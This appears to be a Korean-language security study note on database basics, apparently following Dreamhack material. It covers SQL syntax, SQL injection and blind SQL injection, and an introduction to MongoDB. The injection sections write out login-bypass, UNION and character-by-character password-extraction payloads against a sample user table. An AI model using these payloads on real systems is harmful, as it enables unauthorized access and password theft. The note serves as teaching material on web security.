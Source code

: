 ## DBMS

데이터베이스 관리 시스템
데이터베이스에 정보를 기록, 수정, 삭제하는 기능을 수행함
다수의 사람들이 동시에 데이터베이스에 접근할 수 있도록 지원해주는 말그대로 매니저

관계형 : MySQL, MariaDB, PostgreSQL, SQLite
비관계형 : MongoDB, CouchDB, Redis

## SQL

Structed Query Language
RDBMS의 데이터를 정의, 질의, 수정 등 하기 위한 언어

DDL(Define) : 데이터 정의, 스키마(Table) 및 DB의 생성, 수정, 삭제
DML(Manipulate) : 데이터 조작, 테이블 내 데이터에 대한 생성, 수정, 삭제, 조회
DCL(Control) : 접근 권한 설정(Grant, Revoke)

### DDL

```sql
CREATE DATABASE Dreamhack;

USE Dreamhack;
CREATE TABLE Board(
	idx INT AUTO_INCREMENT,
	boardTitle VARCHAR(100) NOT NULL,
	boardContent VARCHAR(2000) NOT NULL,
	PRIMARY KEY(idx)
);
```

### DML

```sql
INSERT INTO 
  Board(boardTitle, boardContent, createdDate) 
Values(
  'Hello', 
  'World !',
  Now()
);

SELECT 
  boardTitle, boardContent
FROM
  Board
Where
  idx=1;

UPDATE Board SET boardContent='DreamHack!' 
  Where idx=1;
```

## SQL Injection

쿼리를 임의로 조작해서 데이터베이스의 정보를 획득

### 가장 간단한 SQL Injection 기법들

```sql
select * from user_table where uid='admin' or '1' and upw='';
select * from user_table where uid='admin'-- '' and upw=''; // --, #, /**/
select uid from user_table where uid='admin' union select upw from user_table where uid='admin'
```

## Blind SQL Injection

True, False 응답을 통해 정답을 알아가는 방식
쿼리에 대한 결과를 화면에서 직접 확인할 수 없을 때 사용

```dart
ascii('a') => 97
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```

```sql
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False (첫번째 글자가 r인지)
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True (첫번째 글자가 s인지)

SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False (두번째 글자가 s인지)
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True  (두번째 글자가 t인자)
```

Blind SQL Injection은 여러번 시도해야 하기 때문에 스크립트로 작성

## NoSQL

비관계형 데이터베이스(키-값 쌍으로 데이터를 저장)
DBMS 종류에 따라 다양한 구조, 문법이 있음

### MongoDB

Collection 정의 필요 없음 => 테이블과 동일한 개념
JSON 형식으로 쿼리를 작성
_id 필드가 Primary Key 역할을 수행

```sql
SELECT * FROM inventory WHERE status = "A" and qty < 30;
db.inventory.find( { $and: [ { status: "A" }, { qty: { $lt: 30 } } ] } )
```

```bash
$ mongo
> db.user.insert({uid: 'admin', upw: 'secretpassword'})
WriteResult({ "nInserted" : 1 })
> db.user.find({uid: 'admin'})
{ "_id" : ObjectId("5e71d395b050a2511caa827d"), "uid" : "admin", "upw" : "secretpassword" }
```